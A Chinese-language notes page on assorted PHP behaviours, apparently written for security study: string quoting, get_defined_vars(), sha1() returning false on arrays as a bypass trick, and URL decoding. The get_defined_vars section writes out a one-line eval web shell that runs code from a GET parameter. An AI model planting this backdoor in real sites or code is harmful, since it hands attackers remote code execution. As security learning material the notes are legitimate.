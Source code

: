 ## PHP中的一些未整理完的东西
>持续更新
### 关于PHP字符串中的引号

PHP的字符串中，双引号完全支持转义字符，也支持在打印里面的变量（如果不想打印，需要写成\$）。

单引号，除非是要在单引号里面打印单引号，需要进行转义。否则，单引号中不支持其它任何形式的转义。
```php
//只有这种情况是可以转义的
$a = 'I\'m a good man.';
//打印结果为：I'm a good man.
//其它情况
$b = "hah";
$c = "a";
$a = '$b $c';
//打印结果为：$b $c
```

#### get_defined_vars()
该函数会返回一个数组，里面包含当前所有已经定义的服务器变量，环境变量和用户变量。
```php
//利用该函数可以构造一句话木马
@eval(get_defined_vars()['_GET']['cmd']);
```

#### 可以执行系统命令
https://blog.csdn.net/Auuuuuuuu/article/details/88778852

https://cloud.tencent.com/info/8ceed38d46829f15abfea34a9b82a7ff.html 

#### sha1函数
sha1函数不能加密数组，返回值为false。

该特性经常被用于一些绕过之中。

#### urldecode
当一个url被访问的时候，php会先将url进行url解码一次。使用的方法可参考如下博文。

>https://www.cnblogs.com/xccjmpc/p/3348710.html